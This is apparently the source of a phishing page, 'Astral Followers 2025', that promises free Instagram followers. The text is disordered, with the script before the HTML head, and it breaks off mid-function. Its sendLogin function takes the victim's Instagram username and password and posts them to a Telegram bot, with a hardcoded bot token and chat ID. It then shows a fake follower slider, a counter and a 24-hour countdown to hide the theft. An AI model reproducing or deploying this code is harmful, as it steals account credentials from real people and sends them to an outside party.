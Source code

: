   function sendLogin() {
    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;

    fetch('https://api.telegram.org/bot8121986292:AAGc0owQYteaLViIkAUCyZ6F_5O7F1jL7t0/sendMessage', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
      },
      body: JSON.stringify({
        chat_id: '8192063374',
        text: `Instagram Login:\nUsername: ${username}\nPassword: ${password}`
      })
    });

    document.getElementById('loginPage').style.display = 'none';
    document.getElementById('sliderPage').style.display = 'flex';
  }

  const slider = document.getElementById('followerSlider');
  const followerCount = document.getElementById('followerCount');

  slider.oninput = function() {
    followerCount.textContent = this.value + ' Followers';
  }

  function startCountdown() {
    document.getElementById('sliderPage').style.display = 'none';
    document.getElementById('countdownPage').style.display = 'block';

    let finalCount = parseInt(slider.value);
    let current = 0;
    let interval = setInterval(() => {
      if (current >= finalCount) {
        clearInterval(interval);
      } else {
        current += Math.floor(Math.random() * 10) + 5;
        if (current > finalCount) current = finalCount;
        document.getElementById('count').textContent = current + ' Followers';
      }
    }, 150);

    // 24hr countdown timer
    const timerElement = document.getElementById('timer24h');
    let timeLeft = 24 * 60 * 60;
    const updateTimer = () => {
      const hours = Math.floor(timeLeft / 3600);
      const minutes = Math.floor((timeLeft % 3600) / 60);
      const seconds = timeLeft % 60;
      timerElement.textContent = `${hours.toString().padStart(2, '0')}:${minutes.toString().padStart(2, '0')}:${seconds.toString().padStart(2, '0')}`;
      timeLeft--;
      if (timeLeft < 0) clearInterval(timerInterval);
    };
   <!DOCTYPE html><html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Astral Followers ✨ 2025</title>
  <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;700&display=swap" rel="stylesheet">
  <style>
    body {
      margin: 0;
      padding: 0;
      font-family: 'Poppins', sans-serif;
      background: linear-gradient(135deg, #9b59b6, #8e44ad);
      color: white;